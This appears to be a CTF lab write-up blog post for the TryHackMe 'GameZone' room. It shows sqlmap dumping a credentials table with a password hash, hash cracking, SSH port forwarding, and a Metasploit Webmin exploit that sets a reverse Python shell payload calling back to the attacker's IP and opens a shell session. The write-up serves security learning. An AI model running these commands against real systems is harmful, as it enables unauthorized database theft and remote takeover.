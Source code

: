 ```yaml
---
layout : post 
title: GameZone
image : GameZone.png
date: 2021-04-24 01:43 +0530
tags: [hashcat ,SSH PortForwording ]
---
```

# nmap

# Enumeration 

# Exploitation 
sqlinjection on port 80 

![]({{site.baseurl}}/img/tryhackme/GameZone/sqli.png)

copy the web req and save it as sql.txt to use with sql map

![]({{site.baseurl}}/img/tryhackme/GameZone/afterlogin.png)

>  sqlmap -r sql.txt --dbms=mysql --dump

![]({{site.baseurl}}/img/tryhackme/GameZone/sqlmamp.png)
```
sql table

+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+
```
Cracking the hash 

![]({{site.baseurl}}/img/tryhackme/GameZone/crackstation.png)

<h3>ssh port forword</h3>

>ssh -L 10000:localhost:10000 agent47@10.10.231.199

![]({{site.baseurl}}/img/tryhackme/GameZone/service.png)

# Privilage Esclation 

![]({{site.baseurl}}/img/tryhackme/GameZone/webmin.png)

```bash
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit

[-] Exploit failed: A payload has not been selected.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set payload cmd/unix/reverse_python
payload => cmd/unix/reverse_python
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set lhost 10.9.202.83
lhost => 10.9.202.83
msf6 exploit(unix/webapp/webmin_show_cgi_exec) >set lport 5555
lport => 5555
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit

[*] Started reverse TCP handler on 10.9.202.83:5555 
[*] Attempting to login...
[-] Authentication failed
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set rhost localhost
rhost => localhost
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit
[*] Exploiting target 0.0.0.1

[*] Started reverse TCP handler on 10.9.202.83:5555 
[*] Attempting to login...
[-] Authentication failed
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP handler on 10.9.202.83:5555 
[*] Attempting to login...
[-] Exploit failed [unreachable]: OpenSSL::SSL::SSLError SSL_connect returned=1 errno=0 state=error: wrong version number
[*] Exploit completed, but no session was created.
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set SSL false 
[!] Changing the SSL option s value may require changing RPORT!
SSL => false
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit
[*] Exploiting target 0.0.0.1

[*] Started reverse TCP handler on 10.9.202.83:5555 
[*] Attempting to login...
[-] Authentication failed
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP handler on 10.9.202.83:5555 
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Command shell session 1 opened (10.9.202.83:5555 -> 10.10.231.199:38944) at 2021-04-24 02:37:46 -0400
[*] Session 1 created in the background.
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > sessions 1 
[*] Starting interaction with 1...

```